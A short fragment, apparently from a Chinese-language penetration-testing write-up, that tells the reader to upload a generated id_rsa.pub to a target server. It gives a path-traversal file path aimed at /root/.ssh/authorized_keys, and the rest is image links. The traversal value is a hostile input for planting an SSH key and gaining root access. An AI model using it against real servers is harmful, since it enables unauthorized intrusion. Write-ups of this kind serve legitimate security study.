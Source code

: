 ![图片](assets/1711884896-ee6c15ec81fc7915880cc31800a4f5e5.webp)

  

把生成的 id\_rsa.pub 上传到目标服务器

```plain
/../../../../../../../root/.ssh/authorized_keys
```

![图片](assets/1711884896-aee21bc528ff4b0cf4fca12c3fc2c74a.webp)
